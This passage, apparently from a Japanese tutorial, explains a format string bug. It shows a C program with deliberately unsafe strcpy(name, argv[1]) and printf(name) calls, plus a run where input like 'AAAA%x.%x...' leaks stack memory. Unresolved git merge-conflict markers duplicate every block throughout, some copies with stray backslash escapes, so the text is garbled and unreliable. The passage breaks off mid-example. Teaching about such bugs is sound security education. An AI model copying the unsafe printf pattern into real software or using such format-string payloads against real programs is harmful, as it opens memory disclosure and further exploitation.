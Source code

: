     char name[150];
    int starge;

<<<<<<< HEAD
    starge = 1;
    score = 0;

    printf("[debug]addr of score = %x\n", &score);
    printf("[debug]addr of payload = %x\n", &payload[0]);
=======
    starge \= 1;
    score \= 0;

    printf("[debug]addr of score \= %x\n", &score);
    printf("[debug]addr of payload \= %x\n", &payload[0]);
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

    strcpy(name, argv[1]);

    //game routine

    printf("Score of ");
    printf(name);
    printf(" is %d(%x)!!\n", score, score);

    return 0;
}
<<<<<<< HEAD
-----

　このコードをコンパイルし、実行すると次のようになります。

-----
newbie@Glazheim:knoppix$ game.exe Defolos
[debug]addr of score = bffff9ac
[debug]addr of payload = bffff970
Score of Defolos is 0(0)!!
-----
=======
\-\-\-\-\-

　このコードをコンパイルし、実行すると次のようになります。

\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe Defolos
[debug]addr of score \= bffff9ac
[debug]addr of payload \= bffff970
Score of Defolos is 0(0)!!
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　しかしながら、見てのとおり「printf(name);」の部分にフォーマットストリン
グバグが存在しています。ここで次のように、変換指定文字を含む文字列をユー
ザ名として与えるとメモリ内が閲覧できてしまいます。

<<<<<<< HEAD
-----
newbie@Glazheim:knoppix$ game.exe AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
[debug]addr of score = bffff98c
[debug]addr of payload = bffff950
Score of AAAAbffffb6b.1.bffff8c4.4d532038.532050.b7eb116c.1.41414141.252e7825.78252e78 is 0(0)!!
-----
=======
\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
[debug]addr of score \= bffff98c
[debug]addr of payload \= bffff950
Score of AAAAbffffb6b.1.bffff8c4.4d532038.532050.b7eb116c.1.41414141.252e7825.78252e78 is 0(0)!!